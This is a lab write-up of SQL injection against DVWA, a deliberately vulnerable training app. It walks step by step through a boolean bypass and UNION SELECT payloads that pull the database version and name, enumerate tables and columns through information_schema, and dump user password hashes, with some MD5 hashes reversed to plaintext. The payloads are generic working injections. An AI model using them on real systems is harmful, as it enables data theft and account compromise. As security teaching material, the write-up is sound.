




# Simulation 2 – SQL Injection on DVWA (Detailed Walkthrough & Explanation)

This simulation focuses on exploiting an SQL Injection vulnerability in the DVWA (Damn Vulnerable Web Application), a deliberately insecure web app used for learning web security. The objective was to understand how SQL Injection works, what kind of data an attacker can extract through it, and why it's a critical vulnerability. Throughout this simulation, we explored both the theory and the practical exploitation of a vulnerable SQL query.

---

We begin with a simple input box in DVWA under the `SQL Injection` module, which takes a user ID and fetches a user's details. Internally, the code likely runs a query such as:

```sql
SELECT first_name, surname FROM users WHERE user_id = '$id';
```

This means whatever we input in the field gets embedded directly into the SQL query. If we input `1`, the query becomes:

```sql
SELECT first_name, surname FROM users WHERE user_id = '1';
```

Which works as expected.

---

## SQL Injection Exploitation Begins

### 1. Bypass Logic with Boolean Injection

```plaintext
1' OR '1'='1'#
```

This payload closes the existing quote, inserts a condition that is always true (`'1'='1'`), and then comments out the rest using `#`. The query becomes:

```sql
SELECT first_name, surname FROM users WHERE user_id = '1' OR '1'='1' #';
```

**Result:** All rows from the `users` table are returned. This proves the site is vulnerable to SQL injection.


*Figure 1: proof that the site is vulnerable to SQL injection*

---

### 2. Extract Database Version with UNION

```plaintext
1' UNION SELECT null, version()-- -
```

The `UNION SELECT` statement is used to join results from another query. Since the original query returns two columns (`first_name`, `surname`), we match that structure. `null` fills the first column, and `version()` fetches MySQL's current version.

**Result:**
```
Surname: 8.0.42-0ubuntu0.24.04.1
```



*Figure 2: Version of MySQL*

This reveals the MySQL version in use.

---

### 3. Identify the Current Database Name

```plaintext
1' UNION SELECT null, database()-- -
```

This uses the MySQL function `database()` to retrieve the current DB's name.

**Result:**
```
Surname: dvwa
```



*Figure 3: Database Name*

---

### 4. Enumerate Tables in the `dvwa` Database

Once we know the name of the current database (in this case, `dvwa`), the next step is to discover what tables exist inside it. In MySQL, this information is stored in a special system database called `information_schema`.

To list tables, we target the `information_schema.tables` table, and filter it using:

```sql
WHERE table_schema = 'dvwa'
```

This ensures we’re only seeing tables inside the DVWA database.

However, we can't just run `SELECT *` because the page we're injecting into only displays a **single record** at a time. So instead, we use the `LIMIT` clause to fetch one table at a time by its position (offset).

Here’s the full injection payload:

```plaintext
1' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema='dvwa' LIMIT 0,1-- -
```

Once we get the first table name, we increment the `LIMIT` offset to get the next ones:

```plaintext
LIMIT 1,1
LIMIT 2,1
```

**Result:**
- First result: `guestbook`
- Second result: `users`

This method is called **manual enumeration**, and is often used when:
- The web app doesn’t show lists directly
- We're working without automated tools like `sqlmap`

This process is slow but gives you full control and deep understanding of the SQL injection’s inner workings.



*Figure 4: Table Name*

---

### 5. Enumerate Columns in the `users` Table

Next, we list all column names by querying `information_schema.columns`.

```plaintext
1' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1-- -
```

And again, increase the `LIMIT` value to paginate:
```plaintext
LIMIT 1,1
LIMIT 2,1
```


*Figure 5: Column Name*

**Discovered Columns:**
- user_id
- first_name
- last_name
- user
- password
- avatar
- last_login
- failed_login

---

### 6. Extract Credentials from `users` Table

Finally, now that we know the column names, we dump actual data using:

```plaintext
1' UNION SELECT user, password FROM users-- -
```

**Extracted Results:**

| Username | Password Hash |
|----------|----------------|
| admin    | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb  | e99a18c428cb38d5f260853678922e03 |
| 1337     | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo    | 0d107d09f5bbe40cade3de5c71e9b07 |
| smithy   | 5f4dcc3b5aa765d61d8327deb882cf99 |



*Figure 5: Credentials*

These are MD5 hashes. Some common reversals:
- `5f4dcc...` → `password`
- `e99a18...` → `abc123`
- `0d107d...` → `letmein`

---

## Key Terms and Concepts Explained

- **SQL Injection**: A vulnerability where attacker-controlled input is interpreted as SQL code.
- **UNION SELECT**: Combines results from multiple queries. Needs column count and data types to match.
- **information_schema**: A system database in MySQL that contains metadata about databases, tables, and columns.
- **LIMIT offset,count**: Used to fetch specific rows for enumeration.
- **MD5 Hash**: A cryptographic hash commonly used for passwords. Insecure and crackable.

---

## Summary

This simulation demonstrated the full SQL Injection lifecycle:
1. Discovering injection points
2. Bypassing logic with `OR '1'='1'`
3. Using UNION SELECT to exfiltrate:
   - Database version
   - Database name
   - Table names
   - Column names
   - Actual credential data
4. Interpreting hashes for credential reuse

The exercise shows how even a single vulnerable input can lead to total data leakage if queries are not properly sanitized. In real-world systems, this would be a catastrophic breach of confidentiality.